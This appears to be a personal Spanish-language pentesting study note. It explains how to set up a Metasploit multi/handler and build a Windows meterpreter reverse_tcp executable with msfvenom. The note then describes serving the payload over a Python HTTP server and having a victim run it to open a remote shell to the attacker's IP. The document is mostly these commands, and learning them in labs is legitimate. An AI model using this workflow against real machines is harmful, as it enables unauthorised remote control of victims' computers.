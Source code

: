 ## Multi handler ([[01. Other Notes/01. Hacking/Hacking Generico/Msfvenom|Msfvenom]] + metasploit) ##

1. Dentro de Metasploit 
2. Usamos multi/handler[^1]:
	`use multi/handler`
3. Para configurar la forma en la que recibimos una conexion de una maquina victima usamos :
	`show options`
4. Configuarar la IP de la maquina atacante:
	`set LHOST <IP>`
5. Configurar puerto:
	`set LPORT <Puerto>`
6. Fuera de la consola de Metasploit debemos generar un payload[^2] usaremos [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]:
	`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.28 LPORT=443 -f exe -o reverse.exe`
7. Seleccionar el mismo payload que se a utilizado en [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] en la terminal de metasploit:
	`set PAYLOAD windows/x64/meterpreter/reverse_tcp`
8. Nos compartimos el payload con la maquina atacante:
	`python3 -m http.server 80`
9. Desde la maquina Windows abrimos la IP de la maquina atacante en el navegador y descargamos reverse.exe
10. En la maquina en el que hemos descargado el archivo ejecutamos el archivo reverse.exe
11. Desde la consola de Metasploit ejecutamos:
	`run`
11. Obtendremos un meterpreter.

[^1]: *Multi/handler:* Alternativa a netcat pero mas potente.
[^2]: *Payload:* Archivo .exe que al ejecutarlo en la maquia victima me de un acceso remoto a ella.
